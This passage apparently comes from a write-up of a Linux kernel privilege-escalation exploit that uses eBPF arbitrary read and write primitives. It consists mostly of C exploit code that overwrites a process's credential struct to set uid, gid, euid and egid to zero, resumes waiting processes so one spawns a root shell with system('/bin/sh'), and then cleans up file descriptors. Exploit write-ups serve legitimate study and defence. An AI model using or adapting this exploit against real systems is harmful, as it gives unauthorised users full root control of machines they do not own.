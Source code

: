 Now that we have the address of one of our
processes [`cred`](https://elixir.bootlin.com/linux/v5.13/source/include/linux/cred.h#L110)
structs, we can escalate privileges by overwriting the credentials. We set the `uid`, `gid`, `euid`, and `egid` to zero.

```c
int overwrite_cred(context_t *ctx)
{
    if (arbitrary_write(ctx, ctx->cred + OFFSET_uid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_gid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_euid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }
    if (arbitrary_write(ctx, ctx->cred + OFFSET_egid_from_cred, 0, BPF_W) != 0) {
        return -1;
    }

    return 0;
}
```

Now we "spawn a root shell" by resuming the processes from before. The process with the new root credentials
will spawn a shell with `system("/bin/sh")` while the remaining processes will exit.

```c
int spawn_root_shell(context_t *ctx)
{
    for (int i = 0; i < PROC_NUM; i++)
    {
        kill(ctx->processes[i], SIGCONT);
    }
    while(wait(NULL) > 0);

    return 0;
}
```

Once the user exits the root shell, we close all lingering file descriptors
and exit gracefully.

```c
int clean_up(context_t *ctx)
{
    close(ctx->comm_fd);
    close(ctx->arbitrary_read_prog);
    close(ctx->arbitrary_write_prog);
    kill(0, SIGCONT);
    return 0;
}
```
